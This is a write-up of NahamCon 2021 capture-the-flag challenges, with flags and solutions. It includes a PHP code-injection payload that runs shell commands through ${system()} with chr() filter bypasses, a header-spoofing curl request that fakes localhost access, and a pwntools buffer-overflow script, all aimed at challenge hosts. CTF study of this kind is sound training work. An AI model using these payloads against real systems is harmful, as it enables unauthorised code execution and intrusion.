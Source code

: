 # NahamCon 2021 Write-ups
## Beginning tasks
These tasks are "hidden" in website HTML source code or in Discord channel description. They are easy to find.
- Read the rules
- #NahamCon2021
- UHC-BR
- Red Team Village
- Merch Store
- Live Recon Village
- IoT Village
- INE Career Corner
- HTB Village
- The Mission

## The Mission
### Bionic
We were given the website: https://constellations.page and the flag should be from the site.
No flag was found in the HTML or any .css, .js files. However, visiting https://constellations.page/robots.txt and the flag is just there:
```
flag{33b5240485dda77430d3de22996297a1}
```
also with a link to another page: `/meet-the-team.html`

### Meet The Team
There is already a hint to a comment in HTML source code
```html
<!-- Vela, can we please stop sharing our version control software out on the public internet? -->
```
I tried https://constellations.page/.git/ but that folder was locked (403). But I'm guessing the files are accessable. Using the tool I found here to grab all files from .git folder: https://github.com/WangYihang/GitHacker<br/>
After getting all files, we can navigate to the folder, which is a some-what clone, and run `git show` to view changes made. The flag is embeded in the list of employees.
```
flag{4063962f3a52f923ddb4411c139dd24c}
```

### Gus
Using `spiderfoot` OSINT software, I was able to find https://github.com/gusrodry/development. Opening his latest commit, the file `config/.ssh/flag.txt` contains the flag for Gus
```
flag{84d5cc7e162895fa0a5834f1efdd0b32}
```

### Hercules
Navigate to that 1 user who star Gus's repo, who convieniently owns https://github.com/HerculesScox/maintenance. Same as above, `connect.sh` gave us the flag:
```
flag{5bf9da15002d7ea53cb487f31781ce47}
```

## esab64
It's litterally base64 reverse string<br/>
The given string in file provided is
```
mxWYntnZiVjMxEjY0kDOhZWZ4cjYxIGZwQmY2ATMxEzNlFjNl13X
```
Reversing that we get
```
X31lNjFlNzExMTA2YmQwZGIxYjc4ZWZhODk0YjExMjViZntnYWxm
```
Do a base64 decode and we get a reversed flag
```
_}e61e711106bd0db1b78efa894b1125bf{galf
Poof: flag{fb5211b498afe87b1bd0db601117e16e}
```

## Shoelaces
A JPEG image of shoelaces was given. Running `strings` on the file output the flag in the middle.
```
flag{137288e960a3ae9b148e8a7db16a69b0}
```

## Veebee
We were given a .vbe script which is an encrypted .vbs. However it has junks added in the first 3 lines. Removing them and we will have a clean .vbe file.<br/>
Using this online tool https://master.ayra.ch/vbs/vbs.aspx to decrypt it to .vbs
```
flag{f805593d933f5433f2a04f082f400d8c}
```

## Pollex
A file `pollex` was given. Running `file` would show that this is a JPEG.<br/>
Running some tools like steghide binwalk wouldn't show anything.<br/>
It took me a while to realise the thumbnail has tiny text at the bottom (obviously the flag).<br/>
Using the command
```sh
exiftool -b -ThumbnailImage pollex.jpg > thumbnail.jpg
```
to extract the thumbnail image. Typing out the flag...? What? Hell no! Here: https://onlineocr.org/
```
flag{65c34a1ec121a286600ddd48fe36bc00}  // Okay there were mistakes by OCR ¯\_(ツ)_/¯
```

## HTB-LoveTok
We were given a link to hackthebox challenge. Running the instance of LoveTok and we got the link to a page with its source code.<br/>
On the page, a random string countdown time was given with a button to `<link>/?format=r`<br/>
There might be php file inclusion here.<br/>
Reading the source code, it seems like `format` param was used in `date()` function to represent the time in string. We cannot use `'`, `"` or `\` as they are escaped.<br/>
However we can use `${}` to include a php variable. `/format=${phpinfo()}` will show the phpinfo in the page, this confirms we can use `${}`. Now our goal is to get the file `flag` at the root of the container.

We can run `${system()}` to execute a shell command and cat the flag file, however we cannot use symbols, for example, `system(cat flag)` is not valid because `<space>` will be processed in PHP and not in string "cat flag". There is a way to bypass this, using php `chr()` function and concatenate them with `.` (dot).<br/>
Using this command, we can list the files in the root directory
```php
// ls ..
${system(ls.chr(0x20).chr(0x2e).chr(0x2e))}
/* Output
bin boot dev entrypoint.sh etc flagIJGrx home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var www
*/
```
You can see we have the file flagIJGrx. Now let's cat it out
```php
// cat ../flagIJGrx
${system(cat.chr(0x20).chr(0x2e).chr(0x2e).chr(0x2F).flagIJGrx)}
```
Voilà, the flag:
```
HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}
```

## Homeward Bound
A container containing a website is shown to us. A message shows
```
Sorry, this page is not accessible externally.
```
Seems like we have to trick the server to think we are accessing from localhost.<br/>
Using `X-Forwarded-For` HTTP header, we can achieve this.
```sh
curl 'http://challenge.nahamcon.com:31428/' -H 'X-Forwarded-For: 127.0.0.1' | grep "flag{"
```

## Abyss
Bruh...<br/>
Logging in using the creds provided, we were welcomed with ~~shit~~ ton of texts. Inside that ~~shit~~ ton of texts, there is a flag.
```
flag{db758a0cc25523993416c305ef15f9ad}
```

## Ret2basic
A program `ret2basic` was given along with a container running it.<br/>
Running ghidra, the buffer we are writing to is 112 bytes and we need to get to `win()` function by overriding the return address. After some testing, filling 120 bytes + address would do the trick.<br/>
Here is the python script:
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./ret2basic")
#program = elf.process()
program = remote("challenge.nahamcon.com", 30384)

# Fill 120 bytes and the address of function win()
payload = b"A"*120 + p32(elf.symbols['win'])

program.recvuntil(': ')     # Can you overflow this?: 
program.sendline(payload)
program.recvline()          # Here's your flag.\n
print(program.recvline())   # flag{...}
```
And the flag
```
flag{d07f3219a8715e9339f31cfbe09d6502}
```